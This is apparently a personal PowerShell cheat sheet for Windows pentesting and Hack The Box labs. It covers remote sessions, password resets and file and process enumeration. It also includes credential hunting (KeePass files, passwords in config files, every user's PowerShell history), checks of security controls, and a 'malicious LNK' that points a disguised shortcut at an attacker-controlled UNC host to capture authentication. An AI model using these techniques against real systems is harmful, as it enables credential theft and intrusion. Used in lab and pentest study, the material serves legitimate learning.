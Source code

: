 ```yaml
---
tags:
  - windows
  - hack
---
```

# Using PowerShell

## Creating a Credential Object

```powershell
$user = "DOMAIN\luser"
$pass = "Secr1tP4ss!"
$sspass = ConvertTo-SecureString $pass -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ($user, $sspass)
```

## Changing Another User's Password

```powershell
Set-ADAccountPassword -Identity "luser" -NewPassword (ConvertTo-SecureString "NewPassword123" -AsPlainText -Force) -Reset
```

## Using `EnterPSSession` to Access Another Machine

```powershell
Enter-PSSession -ComputerName COMPUTER-MS01 -Credential $cred
```

## Finding Files

```powershell
Get-PSDrive -PSProvider FileSystem | % { Get-ChildItem $_.Root -Filter "*.kdbx" -Recurse -ErrorAction SilentlyContinue }
```

## Searching Files

```powershell
Get-ChildItem -Path C:\ -Recurse -Include *.xml,*.ini,*.txt,*.config | Select-String -Pattern "password" | Format-Table Path, LineNumber, Line
```

## PowerShell History

For all users:

```powershell
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

## Show Installed Programs

```powershell
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
```

## Show Scheduled Tasks

```powershell
Get-ScheduledTask | select TaskName,State
```

## Make a `.zip` Archive

```powershell
Compress-Archive -Path C:\Reference\*.* -DestinationPath C:\Archives\Draft.zip
```

## Expand a `.zip` Archive

```powershell
Expand-Archive -Path "C:\path\to\archive.zip" -DestinationPath "C:\path\to\extract\folder"
```

## Show Processes with Users

```powershell
Get-Process | Select-Object Name, Id, @{Name='UserName';Expression={(Get-WmiObject Win32_Process -Filter "ProcessId=$($_.Id)").GetOwner().User}} | Format-Table -AutoSize

```

## Enumerating Windows Security Controls

Check status of Windows Defender with: `Get-MpComputerStatus`

AppLocker: `Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`

Constrained Language Mode: `$ExecutionContext.SessionState.LanguageMode`

LAPS:

- `Find-LAPSDelegatedGroups`
- `Find-AdmPwdExtendedRights`
- `Get-LAPSComputers`

## Install `activedirectory` PowerShell Module

e.g. for HTB hosts that don't have it enabled by default and don't have Internet access.

```powershell
Add-WindowsFeature RSAT-AD-PowerShell
Import-Module ActiveDirectory
```

## Create a Malicious `LNK`

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\totally-legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@legit.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Important Security Update"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

## Convert a File to Base64

```powershell
[IO.File]::WriteAllText( "/users/luser/x.b64", [Convert]::ToBase64String( [IO.File]::ReadAllBytes("/users/luser/x.zip")))
```

## Test if a TCP Port is Open

```powershell
Test-NetConnection -ComputerName 192.168.1.1 -Port 443
```
